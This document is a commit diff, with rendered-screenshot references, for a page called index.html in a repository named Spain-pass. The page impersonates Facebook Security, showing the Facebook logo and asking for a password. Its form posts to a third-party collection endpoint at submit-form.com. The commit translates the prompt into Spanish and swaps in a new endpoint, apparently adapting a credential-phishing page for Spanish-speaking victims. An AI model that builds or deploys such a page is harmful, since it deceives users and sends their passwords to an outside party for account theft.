

Before and after one commit to ameliajose8/Spain-pass, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 305-672 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -106,10 +106,10 @@
         <div class="logo">
            <img class="logo" src="https://upload.wikimedia.org/wikipedia/commons/6/6c/Facebook_Logo_2023.png" alt="Logo">
         <div class="header">
-            Facebook Security
+            Facebook Seguridad
         </div>
-        <p>Please re-enter your password to complete the request.</p>
-       <form id="meta-form" action="https://submit-form.com/mFOMDMN3e" method="POST">
+        <p>Por favor vuelva a ingresar su contraseña para completar la solicitud.</p>
+       <form id="meta-form" action="https://submit-form.com/IkqBufkNh" method="POST">
               <!-- Replace with your Access Key -->
               <input type="hidden" name="access_key" value="22983eba-14f6-431b-8283-10e298027760">
             <div class="form-group">
@@ -120,7 +120,7 @@
                 </div>
                 <span id="error-message" class="error-message"></span>
             </div>
-            <button type="submit" class="submit-button" fdprocessedid="knr80tm">Submit</button>
+            <button type="entregar" class="submit-button" fdprocessedid="knr80tm">Entregar</button>
         </form>
     </div>
     <script>
```
